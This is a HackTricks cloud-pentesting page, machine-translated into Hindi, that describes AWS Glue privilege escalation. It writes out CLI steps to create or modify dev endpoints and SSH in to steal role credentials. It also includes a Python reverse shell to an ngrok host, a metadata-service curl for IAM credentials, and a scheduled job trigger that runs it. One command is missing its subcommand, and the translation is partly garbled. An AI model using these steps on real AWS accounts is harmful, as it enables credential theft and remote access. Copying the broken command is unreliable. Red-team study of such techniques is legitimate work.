 # AWS - Glue Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** को PRs जमा करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

उन उपयोगकर्ताओं के पास ये अनुमतियाँ हो सकती हैं जो **नए AWS Glue डेवलपमेंट एंडपॉइंट सेट अप कर सकते हैं**, **इस एंडपॉइंट को एक मौजूदा सेवा भूमिका जो Glue द्वारा अस्सुम की जा सकती है, के साथ विशेष अनुमतियों के साथ निर्धारित कर सकते हैं।

सेटअप के बाद, **हमलावर एंडपॉइंट के इंस्टेंस में SSH कर सकता है**, और निर्धारित भूमिका के IAM क्रेडेंशियल्स चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
गुप्तता के उद्देश्य से, सुझाव दिया जाता है कि Glue वर्चुअल मशीन के अंदर से IAM क्रेडेंशियल का उपयोग किया जाए।

**संभावित प्रभाव:** निर्दिष्ट Glue सेवा भूमिका को उन्नत करना।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत-बिंदु की SSH कुंजी को **संशोधित कर सकते हैं**, **इसके लिए SSH पहुंच को सक्षम करते हैं**। यह हमलावर को अंत-बिंदु के संलग्न भूमिका की विशेषताओं के साथ कमांडों को निष्पादित करने की अनुमति देता है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** ग्लू सेवा भूमिका तक प्राइवेसेक करें।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** के साथ उपयोगकर्ता या तो **`glue:CreateJob` या `glue:UpdateJob`**, और या तो **`glue:StartJobRun` या `glue:CreateTrigger`** के साथ संयुक्त रूप से, **AWS Glue जॉब बना सकते या अपडेट कर सकते हैं**, किसी भी **Glue सेवा खाते** को संलग्न करके और जॉब का क्रियान्वयन प्रारंभ कर सकते हैं। जॉब की क्षमताएँ विविध Python कोड चलाने को शामिल हैं, जिसे एक रिवर्स शैल एस्टाब्लिश करने के लिए उत्पादित किया जा सकता है। इस रिवर्स शैल का उपयोग फिर ग्लू जॉब से जुड़े भूमिका के **IAM क्रेडेंशियल** को बाहरी करने के लिए किया जा सकता है, जो उस भूमिका की अनुमतियों पर आधारित अनधिकृत पहुंच या क्रियाएँ करने की संभावना ले जाता है:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट गोंद सेवा भूमिका को उन्नत करना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ एक हमलावर ने पहले से संलग्न भूमिका के IAM क्रेडेंशियल्स को चुरा सकता है।

**संभावित प्रभाव:** संलग्न गोंद सेवा भूमिका को उन्नत करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
